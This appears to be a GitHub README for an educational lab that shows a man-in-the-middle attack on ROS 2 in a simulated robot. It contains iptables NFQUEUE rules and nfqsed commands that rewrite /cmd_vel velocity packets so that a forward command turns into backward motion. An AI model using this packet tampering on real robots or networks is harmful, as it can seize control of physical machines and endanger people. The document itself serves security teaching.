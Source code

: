# ROS2_Attack_Demo_Educational

Table of Contents
=================
  * [Description](#description)
  * [Requeriments](#requeriments)
  * [Instructions](#instructions)
  * [Documentation and Resource links](#documentation and resource links)


  
## Description 
This repository contains a step-by-step guide to perform a MITM attack in ROS 2, for educational purposes. This guide makes use of the MERLIN2_docker platform, which consists of a docker image with a simulator for the RB1 robot.

The purpose of this guide is to present the vulnerabilities present in the communication mechanisms used by the ROS 2 framework.

## Requeriments

First of all, the following software is required to perform the experiment:

 - A installation of `Docker`
 - A local `ROS 2` distribution installed (Humble is recommended)
 - The package `ros-<DISTRO>-teleop-twist-keyboard`
 - A installation of `Wireshark`
 - `nfqsed` tool [https://github.com/rgerganov/nfqsed]
 - Docker image that contain the platform used for the experiment: [`MERLIN2_docker`](#https://github.com/MERLIN2-ARCH/merlin2_docker)
 - Installation of `Gazebo`
 - Installation of Rviz2
 - Installation of Rocker [https://github.com/osrf/rocker]

## Instructions

1. Execute the docker image with Rocker

    ```
    sudo rocker --nvidia --x11 --privilege mgons/merlin2:humble /bin/bash
    ```

2. Inside the docker run the simulator. This will open a local window for Gazebo and Rviz2.
    ```
    ros2 launch rb1_sandbox small_house.launch.py
    ```
    
    ![Gazebo Image](/images/Gazebo.png "Example of Gazebo execution with Rocker")
    ![RVIZ2 Image](/images/RVIZ2.png "Example of RVIZ2 execution with Rocker")
    
    
3. Run teleop node locally
    ```
    ros2 run teleop_twist_keyboard teleop_twist_keyboard
    ```
4. We will focus in the topic which have information about movement: /cmd_vel. With the following command we can see a list of the available topics.
    ```shell
    $ ros2 topic list
    ```
    ```shell
    /amcl/transition_event
    /amcl_pose
    /behavior_server/transition_event
    /behavior_tree_log
    /bond
    /bt_navigator/transition_event
    /camera/camera_info
    /camera/depth/camera_info
    /camera/depth/image_raw
    /camera/image_raw
    /camera/points
    /clicked_point
    /clock
    /cmd_vel
    /controller_server/transition_event
    ...
    ```
    
    We can see relevant information about the topic with `ros2 topic info <<topic_name>>>`. In this way, we can identify the message type that is been used by the topic. In that case that message type is: `geometry_msgs/msg/Twist`
    
    ```shell
    $ ros2 topic info /cmd_vel -v
    ```
    ```shell
    Type: geometry_msgs/msg/Twist
    Publisher count: 6
    Node name: teleop_twist_keyboard
    Node namespace: /
    Topic type: geometry_msgs/msg/Twist
    Endpoint type: PUBLISHER
    GID: 01.0f.68.a6.11.21.2c.5f
    .01.00.00.00.00.00.11.03.00.00.00.00.00.00.00.00
    QoS profile:
        Reliability: RELIABLE
        History (Depth): UNKNOWN
        Durability: VOLATILE
        Lifespan: Infinite
        Deadline: Infinite
        Liveliness: AUTOMATIC
        Liveliness lease duration: Infinite
    ```
    
    We also can show the structure of the message type:
    
    ```shell
    $ ros2 interface show geometry_msgs/msg/Twist
    ```
    ```shell
    Vector3 linear
    float64 x
    float64 y
    float64 z
    Vector3 angular
    float64 x
    float64 y
    float64 z
    ```
    
5. Teleop node will publish message in /cmd_vel topic. In that case, the node will publish a 0.5 value in X coordinate (of linear velocity) when the user press 'I' key.

    ```shell
    $ ros2 topic echo /cmd_vel
    ```
    ```shell
    linear:
    x: 0.5
    y: 0.0
    z: 0.0
    angular:
    x: 0.0
    y: 0.0
    z: 0.0
    ```
    
6. We must identify the Docker IP. In our case, the teleop node will be publishing in 172.17.0.1 while robot simulation has 172.17.0.2.

    ```shell
    $ ifconfig
    ```
    ```shell
    docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>
    mtu 1500
    inet 172.17.0.1 netmask 255.255.0.0
    broadcast 172.17.255.255
    inet6 fe80::42:14ff:fe51:3357 prefixlen 64
    scopeid 0x20<link>
    ether 02:42:14:51:33:57 txqueuelen 0 (
    Ethernet)
    RX packets 70409 bytes 17665691 (17.6 MB)
    RX errors 0 dropped 0 overruns 0 frame 0
    TX packets 11494 bytes 5410634 (5.4 MB)
    TX errors 0 dropped 0 overruns 0 carrier 0
    collisions 0
    ```
    
7. Run Wireshark (with root) and search for the ros2 packages. The teleop node can be used to generate traffic. We can use the next rule to filter the traffic: ```udp && ip.src==172.17.0.1 && ip.dst==172.17.0.2```. Once we have located a package we must search for the ports and replace them in the scriptDemo.sh file:

![Wireshark Image](/images/Wireshark.png "Example of ROS2 packages in Wireshark")

![Ports Image](/images/ports.png "Ports in Wireshark")

    
    ```shell
    $ sudo iptables -A INPUT -p udp --sport <<port_number>> -j NFQUEUE --queue-num 0
    $ sudo iptables -A OUTPUT -p udp --dport <<port_number>> -j NFQUEUE --queue-num 0
    ```
    
    The script is modifying the package replacing the hexadecimal value of x coordinate (of linear velocity). The original value is 0xE03F (0.5 in decimal) and nfqsed will replace that value for 0xE0BF (-0.5 in decimal).

8. Next step consist in run the script and use teleop node to move the robot forward ("I" key), with nfqsed runing, the robot should moving backward when we press "I" key. With Wireshark we can monitor the traffic and see the modification of the package.

    ```shell
    $ ./scriptDemo.sh
    ```
    ```shell
    Rules (in hex):
    e03f -> e0bf
    opening library handle
    unbinding existing nf_queue handler for AF_INET (if any)
    binding nfnetlink_queue as nf_queue handler for AF_INET
    binding this socket to queue ’0’
    setting copy_packet mode
    packet received
    packet received
    rule match, changing payload: e03f -> e0bf
    packet received
    ```
    
    Remember that our script for run nfqsed need no be located inside the nfqsed folder, otherwise you will have to modify the script with the path to nfqsed.
    
    ![OriginalPackage Image](/images/paquete.png "Package before modification.")
    ![HackedPackage Image](/images/RVIZ2.png "Package after modification.")

## Documentation and Resource links

Some useful links:

- Rocker Github: https://github.com/osrf/rocker
- nfqsed Github: https://github.com/rgerganov/nfqsed
- MERLIN2_docker Github: https://github.com/MERLIN2-ARCH/merlin2_docker
- MERLIN2_docker DockerHub: https://hub.docker.com/r/mgons/merlin2

Documentation:
- Paper:
- Demostration video: 

